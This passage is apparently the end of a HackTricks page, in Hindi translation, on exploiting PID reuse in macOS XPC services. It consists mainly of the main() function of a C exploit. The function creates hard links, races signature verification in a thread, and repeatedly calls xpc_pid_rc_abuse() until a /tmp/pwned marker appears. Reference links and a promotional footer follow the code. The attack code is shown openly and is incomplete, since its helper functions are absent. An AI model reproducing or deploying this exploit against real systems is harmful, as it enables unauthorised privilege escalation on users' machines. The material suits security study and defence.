 int main(int argc, const char \* argv\[]) { // Create and set execution rights to 'hard\_link' file system("touch hard\_link"); system("chmod +x hard\_link");

// Create thread to exploit sign verification RC pthread\_t thread; pthread\_create(\&thread, NULL, check\_race, NULL);

while(!pwned) { // Try creating 'download' directory, ignore errors system("mkdir download 2>/dev/null");

// Create a hardlink // TODO: CHANGE NAME OF FILE FOR SIGN VERIF RC system("ln hard\_link download/legit\_bin");

xpc\_pid\_rc\_abuse(); usleep(10000);

// The payload will generate this file if exploitation is successfull if (access("/tmp/pwned", F\_OK ) == 0) { pwned = true; } }

return 0; }

```
## संदर्भ

* [https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/](https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/)
* [https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf](https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf)

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **मुझे** ट्विटर पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>
```
